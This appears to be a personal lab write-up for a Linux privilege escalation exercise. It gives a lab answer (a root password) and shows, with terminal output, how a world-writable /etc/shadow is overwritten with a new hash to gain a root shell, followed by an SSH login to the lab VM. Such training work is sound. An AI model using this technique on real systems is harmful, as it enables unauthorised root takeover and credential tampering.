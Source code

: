
What is the root user's password?
Ans. password123

===

The /etc/shadow file contains user password hashes and is usually readable only by the root user.

Note that the /etc/shadow file on the VM is world-writable:

ls -l /etc/shadow

Generate a new password hash with a password of your choice:

mkpasswd -m sha-512 newpasswordhere

Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.

Switch to the root user, using the new password:

su root

```
user@debian:~$ mkpasswd -m sha-512 newpasswordhere
$6$PUzQYfDLSGMw/yF$MR0Qg6SPndWLRT2Pe1Yi7Ubh2CZOZp0Oi5NnbxIty3i5m8s4oJ7goK4gz0SP./LRBMjyxSSEy.6DILE9r/MQu.
user@debian:~$ 

```
```
user@debian:~$ nano /etc/shadow
user@debian:~$ su root
Password: 
root@debian:/home/user# 
```

===========END OF MACHINE=======

cont.

export IP: 10.10.217.88

ssh -o HostKeyAlgorithms=+ssh-rsa user@10.10.217.88

```
┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]
└─$ ping 10.10.217.88              
PING 10.10.217.88 (10.10.217.88) 56(84) bytes of data.
64 bytes from 10.10.217.88: icmp_seq=1 ttl=61 time=442 ms
^C
--- 10.10.217.88 ping statistics ---
2 packets transmitted, 1 received, 50% packet loss, time 1002ms
rtt min/avg/max/mdev = 441.789/441.789/441.789/0.000 ms
                                                                                                                       
┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]
└─$ 

┌──(kali㉿kali)-[~/ken/brainstack/linuxprivsec]
└─$ ssh -o HostKeyAlgorithms=+ssh-rsa user@10.10.217.88

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri May 15 06:41:23 2020 from 192.168.1.125
user@debian:~$ 

```
